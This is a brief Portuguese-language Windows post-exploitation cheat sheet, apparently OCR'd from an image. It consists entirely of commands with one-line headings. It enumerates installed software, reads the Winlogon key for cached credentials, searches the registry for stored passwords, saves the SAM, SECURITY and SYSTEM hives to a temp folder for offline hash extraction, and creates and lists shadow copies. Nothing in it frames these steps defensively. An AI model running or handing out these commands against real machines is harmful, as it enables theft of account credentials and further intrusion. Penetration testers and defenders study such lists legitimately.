 ## lista os softwares instalados (1)
```
dir /a "C:\Program Files"
```

## lista os softwares instalados (2)
```
dir /a "C:\Program Files (x86)"
```

## lista os softwares instalados (3)
```
reg query HKEY_LOCAL_MACHINE\SOFTWARE
```

## Exibe valor das credenciais em cache do LSA
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

## Consulta no registro pela palavra "password" (1)

```
reg query HKLM /f password /t REG_SZ /s
```
## Consulta no registro pela palavra "password" (2)
```
reg query HKCU /f password /t REG_SZ /s
```

## Consulta no registro para extrair o SAM

When the Windows operating system is running, the hives are in use and mounted. The command-line tool named reg can be used to export them.

```
reg save HKLM\SAM 'C:\Windows\Temp\sam.save'
reg save HKLM\SECURITY 'C:\Windows\Temp\security.save'
reg save HKLM\SYSTEM 'C:\Windows\Temp\system.save'
```

## Cria um copia "sombra" (shadow)
```
wmic shadowcopy call create Volume='C:\'
```

## lista as copias sombras (shadow)
```
vssadmin list shadows
```
